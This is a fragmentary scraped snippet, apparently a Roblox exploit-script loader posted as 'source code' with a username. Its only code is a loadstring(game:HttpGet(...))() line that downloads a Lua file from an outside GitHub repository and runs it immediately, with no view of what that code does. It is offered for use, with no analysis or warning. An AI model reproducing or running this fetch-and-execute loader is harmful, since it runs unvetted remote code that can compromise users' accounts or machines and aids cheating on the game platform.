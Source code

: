 Username =neteriteswordi 

loadstring(game:HttpGet("https://raw.githubusercontent.com/terabite-max43/shitescripts/main/configs.lua"))()
